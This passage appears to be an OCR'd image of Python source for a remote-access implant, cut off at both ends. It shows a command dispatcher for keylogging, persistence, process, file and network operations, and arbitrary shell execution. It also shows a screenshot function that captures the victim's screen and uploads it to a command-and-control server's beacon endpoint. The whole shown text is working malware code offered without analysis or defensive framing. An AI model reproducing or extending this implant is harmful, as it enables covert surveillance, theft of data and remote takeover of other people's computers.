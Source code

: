 ```python
    elif command.startswith("KEYLOG"):
        return start_keylogger()
    
    # Process management
    elif command.startswith("PROCESS:"):
        parts = command.split(":")
        action, target = parts[1], parts[2] if len(parts) > 2 else ""
        return manage_process(action, target)
    
    # File operations
    elif command.startswith("FILE:"):
        parts = command.split(":")
        operation, path = parts[1], parts[2]
        return file_operation(operation, path)
    
    # Persistence
    elif command.startswith("PERSIST:"):
        parts = command.split(":")
        method, action = parts[1], parts[2]
        return manage_persistence(method, action)
    
    # Network ops
    elif command.startswith("NETWORK:"):
        parts = command.split(":")
        operation, target = parts[1], parts[2] if len(parts) > 2 else ""
        return network_operation(operation, target)
    
    # System info
    elif command.startswith("SYSINFO"):
        return get_system_info()
    
    # Standard shell command
    else:
        import subprocess
        result = subprocess.run(command, shell=True, capture_output=True, text=True)
        return result.stdout + result.stderr

def capture_screenshot():
    """Capture and upload screenshot"""
    try:
        from PIL import ImageGrab
        import io
        
        screenshot = ImageGrab.grab()
        img_buffer = io.BytesIO()
        screenshot.save(img_buffer, format='PNG')
        img_b64 = base64.b64encode(img_buffer.getvalue()).decode()
        
        requests.post(
            f"{C2_SERVER}/api/beacon/{BEACON_ID}/screenshot",
            json={"image_b64": img_b64}
        )
        
        return "[+] Screenshot captured and uploaded"
    except Exception as e:
        return f"[-] Screenshot failed: {e}"

def manage_process(action, target):
    """Process management"""
    import psutil
    
    if action == "list":
        processes = [p.name() for p in psutil.process_iter()]
```